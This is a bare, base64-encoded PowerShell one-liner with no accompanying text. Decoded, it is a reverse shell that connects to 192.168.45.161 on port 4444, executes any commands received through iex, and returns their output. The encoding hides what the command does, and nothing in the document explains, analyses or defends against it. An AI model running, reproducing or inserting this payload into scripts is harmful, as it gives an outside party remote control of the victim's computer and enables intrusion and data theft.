powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADEANgAxACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```
